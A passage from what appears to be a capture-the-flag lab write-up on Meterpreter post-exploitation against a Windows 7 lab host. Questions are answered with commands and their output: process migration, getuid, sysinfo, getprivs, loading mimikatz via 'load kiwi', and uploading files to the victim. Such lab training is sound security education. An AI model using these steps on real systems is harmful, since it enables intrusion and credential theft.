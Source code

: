 ```
 2268  1320  Icecast2.exe            x86   1        Dark-PC\Dark  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
 2280  584   WMIADAP.exe
 2308  692   vds.exe
 2404  816   WmiPrvSE.exe
 2616  692   SearchIndexer.exe
 2812  816   rundll32.exe            x64   1        Dark-PC\Dark  C:\Windows\System32\rundll32.exe
 2860  2812  dinotify.exe            x64   1        Dark-PC\Dark  C:\Windows\System32\dinotify.exe
 2956  2616  SearchProtocolHost.exe  x64   1        Dark-PC\Dark  C:\Windows\System32\SearchProtocolHost.exe
 3068  692   mscorsvw.exe
```
**Answer**: `spoolsv.exe`
### What command do we use to transfer ourselves into the process?
**Answer**: `migrate`
### What command can we run to find out more information regarding the current user running the process we are in?
```
meterpreter > getuid 
Server username: Dark-PC\Dark
```
**Answer**: `getuid`
### How about finding more information out about the system itself?
```
meterpreter > sysinfo 
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
**Answer**: `sysinfo`
### This might take a little bit of googling, what do we run to load `mimikatz` (more specifically the new version of `mimikatz`) so we can use it? 
**Answer**: `load kiwi`
### Let's go ahead and figure out the privileges of our current user, what command do we run?
```
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
**Answer**: `getprivs`
### What command do we run to transfer files to our victim computer?
**Answer**: `upload`